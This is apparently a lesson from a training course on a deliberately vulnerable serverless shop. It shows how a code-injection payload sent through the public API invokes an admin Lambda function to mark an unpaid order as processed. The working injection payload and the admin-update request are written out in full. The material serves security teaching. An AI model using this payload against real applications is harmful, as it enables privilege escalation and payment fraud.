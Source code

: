 # LESSON #5: Broken Access Control

The DVSA application has some admin functions. Although these functions are not available through the standard API calls, the function that receives the API calls has permissions to invoke any function. Since the function is vulnerable to [code injection](../LESSONS/LESSON_01.md) it is possible to invoke admin function using the standard API calls.

This means that by invoking the right function at the right time, we can skip the payment. But, first, we start with the normal flow:

- `{"action": "new", "cart-id": "xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx", "items": { "<item-id>":<qty>, "<item-id>":<qty>, ... }}`

- `{"action": "shipping", "order-id": "yyyyyyyy-yyyy-yyyy-yyyy-yyyyyyyyyyyy", "data": {"address":"<address>", "email":"<email>", "name":"<name>"}}`

- `{"action": "billing", "order-id": "yyyyyyyy-yyyy-yyyy-yyyy-yyyyyyyyyyyy", "data": {"ccn":"4242424242424242", "exp":"11/22", "cvv":"123 }}`

Now that we have an order that is missing only the payment, let's exploit.

To admin function receives an order Id and the parameters to update, so we can send something like that:

```
{
  "body": {
    "action": "update",
    "order-id": "cc241d5c-f665-48db-8e55-4391f62465ba",
    "item": {
      "userId": "12312312-1233-1233-1233-123123123123",
      "token": "aSD32d2ASd2",
      "ts": "1545594489",
      "itemList": {
        "20": 2
      },
      "address": {
        "name": "john doe",
        "email": "secret@email.com",
        "address": "po box 31337"
      },
      "total": 25,
      "status": 120
    }
  }
}
```

Now, we have to pass it as part of the exploit itself:

```
{"action": "_$$ND_FUNC$$_function(){var p=JSON.stringify(' + new_order + ');var a=require(\\"aws-sdk\\");var l=new a.Lambda();var x={FunctionName:\\"DVSA-ADMIN-UPDATE-ORDERS\\",InvocationType:\\"RequestResponse\\",Payload:p};l.invoke(x, function(e,d){});}()"}
```

Which eventually looks like that:

```
{"action": "_$$ND_FUNC$$_function(){var p=JSON.stringify({\"body\": {\"action\": \"update\", \"item\": {\"status\": 120, \"userId\": \"12312312-1233-1233-1233-123123123123\", \"ts\": 1545594489, \"token\": \"aSD32d2ASd2\", \"itemList\": {\"20\": 2}, \"address\": {\"address\": \"po box 131337\", \"name\": \"john doe\", \"email\": \"secret@email.com\"}, \"total\": 25}, \"order-id\": \"cc241d5c-f665-48db-8e55-4391f62465ba\"}});var a=require(\"aws-sdk\");var l=new a.Lambda();var x={FunctionName:\"DVSA-ADMIN-UPDATE-ORDERS\",InvocationType:\"RequestResponse\",Payload:p};l.invoke(x, function(e,d){});}()"}
```

![alt stealing](https://i.imgur.com/8NXyXlQ.png)

We got an error from the API function. But the database was updated with the new data. Since we did not issue a SQS notification for the payment, the receipt will be proccessed with a daily cron-job function. However, it is already possible to see it in the orders page.

- - -
[ToC](../LESSONS/README.md) | [1](../LESSONS/LESSON_01.md) | [2](../LESSONS/LESSON_02.md) | [3](../LESSONS/LESSON_03.md) | [4](../LESSONS/LESSON_04.md) | [5](../LESSONS/LESSON_05.md) | [6](../LESSONS/LESSON_06.md) | [7](../LESSONS/LESSON_07.md) | [8](../LESSONS/LESSON_08.md) | [9](../LESSONS/LESSON_09.md) | [10](../LESSONS/LESSON_10.md)

